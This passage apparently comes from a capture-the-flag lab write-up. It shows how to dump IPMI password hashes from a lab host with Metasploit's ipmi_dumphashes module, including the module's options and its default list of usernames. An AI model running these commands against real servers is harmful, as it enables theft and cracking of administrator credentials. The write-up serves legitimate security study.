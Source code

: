 #### With MSF

Both the HackTricks post and the Rapid7 post mention a MSF module that can
collect these hashes:

    
    
    msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
    rhosts => 10.10.11.124
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options
    
    Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
    
       Name                  Current Setting                                                                 Required  Description
       ----                  ---------------                                                                 --------  -----------
       CRACK_COMMON          true                                                                            yes       Automatically crack common passwords as they are obtained
       OUTPUT_HASHCAT_FILE                                                                                   no        Save captured password hashes in hashcat format
       OUTPUT_JOHN_FILE                                                                                      no        Save captured password hashes in john the ripper format
       PASS_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
       RHOSTS                10.10.11.124                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT                 623                                                                             yes       The target port
       SESSION_MAX_ATTEMPTS  5                                                                               yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
       SESSION_RETRY_DELAY   5                                                                               yes       Delay between session retries in seconds
       THREADS               1                                                                               yes       The number of concurrent threads (max one per host)
       USER_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
    

This script will take a list of users (default list is one called
`ipmi_users.txt`) and ask for hashes for each of them. That list is actually
quite short:

    
    
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt
    [*] exec: cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt
    
    ADMIN
    admin
    root
    Administrator
    USERID
    guest
    Admin
    